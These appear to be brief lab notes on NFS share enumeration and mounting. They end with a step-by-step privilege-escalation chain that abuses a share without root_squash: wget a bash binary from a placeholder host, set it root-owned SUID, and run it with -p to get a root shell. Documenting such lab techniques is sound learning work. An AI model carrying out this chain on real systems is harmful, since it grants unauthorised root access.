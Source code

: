 Network File System
`nfs-utils` package

`showmount -e 10.10.135.34`
`-e` - exports (aka shares)

`sudo mount -t nfs IP:share /tmp/mount/ -nolock`
`-t nfs` - type nfs
`-nolock` no `NLM` (network lock manager)

e.g.
`sudo mount -t nfs 10.10.135.34:/home /tmp/mount -nolock`

`root_squash` - prevents anyone connection to NFS from having root access to it. 
Remote root users are assigned as `nfsnobody` user with least local privileges.
Enabled by default
IF NOT enabled -> remote users connecting with `NFS` can create `SUID` bit files -> remote user have `root access `to the connected system

e.g.
	mount `NFS` share -> `wget http:blabla/bash` (to get accordingly compiled `bash`) -> `chown root bash` -> `chmod +4001 bash` -> log into that user -> `./bash -p`
	`-p` persist the permissions. Otherwise root `SUID` will be dropped

